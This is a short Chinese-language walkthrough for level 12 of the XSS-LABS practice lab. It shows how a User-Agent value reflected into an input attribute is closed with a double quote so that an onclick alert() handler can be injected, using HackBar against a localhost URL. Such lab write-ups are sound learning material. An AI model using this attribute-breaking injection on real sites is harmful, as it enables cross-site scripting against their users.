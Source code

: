 - 查看源码，这是一个User-agent中的XSS，t_ua这个input会读取User-agent并设置为它的value。

![image-20220928191643650](XSS-LABS.assets/image-20220928191643650.png)

- 测试得知t_ua这个input的属性可双引号闭合

```shell
# payload
# 使用HackBar，勾选User Agent，填写：
Click me"onclick="alert()"type="button

# 填入此url，点Execute
http://localhost:1996/level12.php?keyword=test
```

![image-20220928192444142](XSS-LABS.assets/image-20220928192444142.png)

- 点击Click me拿下

